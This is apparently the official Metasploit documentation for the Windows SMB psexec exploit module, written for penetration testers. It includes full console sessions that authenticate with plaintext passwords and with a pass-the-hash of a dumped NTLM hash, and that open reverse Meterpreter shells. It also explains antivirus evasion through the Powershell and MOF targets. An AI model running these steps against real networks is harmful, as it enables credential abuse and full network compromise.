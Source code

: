 psexec is one of the most popular exploits against Microsoft Windows. It is a great way to test
password security, and demonstrate how a stolen password could lead to a complete compromise of an
entire corporate network.

The Metasploit Framework actually includes different module types of psexec for different
scenarios. exploit/windows/smb/psexec is the father of them all, and is used the same way
you normally would with any Metasploit exploits.


## Vulnerable Application

To be able to use exploit/windows/smb/psexec, you must meet these requirements:

1. You have a valid username/password.
2. Firewall allows SMB.
2. The remote Windows machine's network security policy allows it. If you see [one of these errors](https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F), it's an indication it doesn't.

## Verification Steps

Please see Basic Usage under Overview.

## Options

By default, exploit/windows/smb/psexec can be as simple as setting the RHOST option, and ready to
go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

A valid Windows username.

**The SMBPass option**

This can be either the plain text version, or the Windows hash.

## Scenarios

**Typical Usage**

Password stealing is always the first thing in order to use psexec. How you will be able to do that
really depends on the situation. But one thing for sure, if psexec is possible, so should smb_login.

The following shows the basic workflow of using both modules and gain access:

1. use auxiliary/scanner/smb/smb_login (please refer to that module documentation to learn usage)
2. Assuming you have found a good password, use psexec like the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

**Pass the Hash**

One common penetration testing scenario with using psexec is that attackers usually begin by
breaking into a box, manage to the dump the hashes, and use some of those hashes to log into
other boxes on the network using psexec. So let's say I'm in that scenario with the following
stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

Without the need to crack the hash, I can simply copy and paste it to the SMBPass option in
psexec, and get a session:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

exploit/windows/smb/psexec comes with multiple targets available, and Automatic is default. What
happens under the hood is if Powershell is detected on the remote machine, it will try Powershell,
otherwise it uses the natvie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded
in it. Since this approach does not leave anything on disk, this is a very powerful way to evade
antivirus, however, older Windows machines might not support Powershell by default.

Ideally, you probably want to use the Automatic target setting instead of this since it will check
if Powershell is possible first.

**Native Upload Target**

By default, the Native target will attempt to upload the payload (executable) to SYSTEM32, and then
execute it with psexec. This approach is rather reliable, but has a high chance of getting caught
by antivirus on the target.

**MOF Upload Target**

The MOF target technically does not use psexec: it does not explicitly tell Windows to execute
anything. All it does is uploading two files: the payload (exe) in SYSTEM32, and a managed object
format file in SYSTEM32\wbem\mof\ directory. When Windows sees the mof file in that directory, it
automatically runs it. Once executed, the code inside the mof file basically tells Windows to
execute our payload in SYSTEM32, and we get a session.

Although a neat trick, Metasploit's MOF library only works against Windows XP and
Windows Server 2003. And since it does write files to disk, there is also a high chance of getting
caught by antivirus on the target.

